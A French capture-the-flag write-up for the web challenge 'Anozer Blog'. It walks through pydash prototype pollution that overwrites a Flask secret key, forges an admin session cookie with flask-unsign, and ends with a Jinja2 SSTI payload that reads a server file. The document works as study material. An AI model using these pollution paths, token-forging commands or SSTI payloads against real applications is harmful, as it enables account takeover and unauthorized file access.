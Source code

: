 ```yaml
---
layout: default
type: writeup
title: Anozer Blog
category: Web
point: 258
files: ["Anozer Blog.zip"]
---
```


{% raw %}
> **title:** Anozer Blog
>
> **category:** Web
>
> **difficulty:** Medium
>
> **point:** 258
>
> **author:** JeanJeanLeHaxor#4628
>
> **description:**
>
> Objective: Read the flag, situated on the server in /app/flag.txt
> 

## Solution

Le code source est donné. En regardant le fichier **`requirements.txt`** on peut déjà voir que **`pydash`** est demandé en version **`5.1.2`** spécifiquement, c'est assez étrange alors regardons s'il existe des vulnérabilités dessus.

Je suis tombé sur **[cet article](https://blog.abdulrah33m.com/prototype-pollution-in-python/)** expliquant comment polluer une variable grâce à PyDash :

![Article sur la pollution avec pydash](images/pydash.png)

Accompagné de cet exemple :

```python
pydash.set_(User(), '__class__.__init__.__globals__.not_accessible_variable','Polluted variable')
```

On peut donc changer la valeur d'une variable qui n'est pas accessible dans notre contexte grâce à la fonction **`set_`**.

Cherchons si cette fonction est utilisée :

![Recherche et utilisation de la fonction set_ de pydash](images/set_.png)

![Documentation de la fonction set_](images/docu.png)

Comment l'exploiter ? Il faut que **`article_name`** soit le **`path`** de notre variable à polluer et **`article_content`** soit notre **`value`** de pollution.

Pour arriver à cette fonction, il faut passer par la création d'un article :

![Code de la fonction 'create_article'](images/create_article.png)

Ok, à priori on peut modifier n'importe quelle variable, mais sur laquelle le faire ?

L'objectif est de lire un fichier local, or on ne peut pas exécuter de commande via la pollution directement puisque dans notre fonction **`create_article`** on nous impose ligne 21 que **`content`** soit une string.

En cherchant un peu plus, on tombe sur cette fonction qui permet d'utiliser **`render_template_string`** si le user a la propriété **`seeTemplate`** vraie. Cette fonction permettrai de faire une **SSTI** dans Jinja et donc d'exécuter directement des commandes. 

![Code de la fonction 'render_page'](images/render_page.png)

Et dans le fichier **`users.py`**, on voit qu'un compte admin est automatiquement ajouté avec cette permission.

![Création du compte admin dans l'initialisation de la class Users](images/init_user.png)

Et bien je propose de modifier le secret de la création des tokens d'authentification pour forger nos tokens et se connecter en tant qu'admin pour exécuter notre payload.

<br>

### Etape 1 : Modifier le secret

En essayant le payload que nous avons trouvé sur le site tout à l'heure ça n'a pas fonctionné, mais j'ai trouvé **[ce WriteUp](https://ctftime.org/writeup/36082)** qui propose un autre **`path`** pour accèder aux variables globales :

```python
pydash.set_(
    TaskManager(),
    '__init__.__globals__.__loader__.__init__.__globals__.sys.modules.__main__.app.xxx',
    'xxx'
)
```

On va donc essayer :

```
path:  __init__.__globals__.__loader__.__init__.__globals__.sys.modules.__main__.app.secret_key
value: myNewSecretKey
```

![Envoie du payload pour polluer app.secret_key](images/pollution.png)

Maintenant pour vérifier que la clé a bien été modifiée, on va créer un compte pour obtenir un token :

![Création d'un compte](images/create_account.png)

Puis dans le devtools > Application > Cookie on récupère le token :

![Récupération du token d'authentification](images/token.png)


Avec **[flask-unsign](https://pypi.org/project/flask-unsign/)** on décode le token :

```
> flask-unsign --decode --cookie "eyJ1c2VyIjp7InNlZVRlbXBsYXRlIjpmYWxzZSwidXNlcm5hbWUiOiJUaGF5U2FuIn19.ZF3p_g.WO5brOHD0p_cydPSxNVnA69780k"
{'user': {'seeTemplate': False, 'username': 'ThaySan'}}
```

Puis on en forge un nouveau avec le username **`admin`** et notre nouveau secret :

```
> flask-unsign --sign --cookie "{'user': {'seeTemplate': False, 'username': 'admin'}}" --secret "myNewSecretKey"
eyJ1c2VyIjp7InNlZVRlbXBsYXRlIjpmYWxzZSwidXNlcm5hbWUiOiJhZG1pbiJ9fQ.ZF3wdA.Kp-qp6YiWF1cLe5RIe9MT1-Sll0
```

On remplace notre ancien token par celui que l'on vient de forger et en allant consulter l'article **`welcome`**, on voit bien que l'on est connecté en tant qu'admin et que le template est interprété :

![Vérification de notre token forgé](images/admin_token.png)

<br>

### Etape 2 : lire le fichier /app/flag.txt

Pour ça j'utilise **[ce CheatSheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)** sur les SSTI de Jinja2. On y trouve le payload :

```
{{ request.__class__._load_form_data.__globals__.__builtins__.open("/app/flag.txt").read() }}
```

Il ne reste plus qu'à créé un article avec ce content :

![Envoie de notre payload pour SSTI](images/ssti.png)

Et maintenant on consulte l'article :

![Récupération du flag](images/flag.png)

**`FLAG : PWNME{de3P_pOL1uTi0n_cAn_B3_D3s7rUctIv3}`**

{% endraw %}
